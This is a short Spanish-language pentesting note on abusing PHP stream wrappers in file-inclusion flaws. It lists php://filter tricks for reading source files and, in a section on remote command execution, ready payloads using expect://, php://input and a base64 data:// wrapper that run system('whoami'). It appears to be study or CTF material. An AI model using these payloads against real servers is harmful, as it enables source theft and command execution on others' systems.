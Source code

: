 -----------------
- Tags: #explotación #web #linux #php
--------------

Existen varios wrappers con distintas funcionalidades:

- php://filter/convert.base64-encode/resource=*Nombre del archivo que queremos representar en base 64*: Como se menciona, permite representar archivo en un one line expresado en base 64.
- php://filter/read=string.rot13/resource=*Nombre del  archivo que se requiere representar pero rotado en 13 posiciones el contenido*
- php://filter/convert.iconv.utf-8.utf-16/resource=*Nombre del archivo*: Permite que el navegador no interprete el código php sino que lo represente en la página.

### Wrappers maliciosos para ejecució remota de comandos

- expect://whoami: Permite ejeución de comandos ([[RCE]]).
- /?filename=php://input. Para este el método que se envíe debe ser POST y se debe pasar en PHP como el siguiente (En vez de whoami se puede incluir el comando que se requiere, como por ejemplo gestionar el envío de una reverse shell:

```php
<?php system('whoami'); ?>
```

- data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4=: Sirve para pasar el comando en base 64. Para este caso se codificó a base 64 el siguiente comando PHP:

```php
<?php system('whoami'); ?>
```

*Tener en cuenta que se debe url-encodear (Control + U) para Burpsuite.*

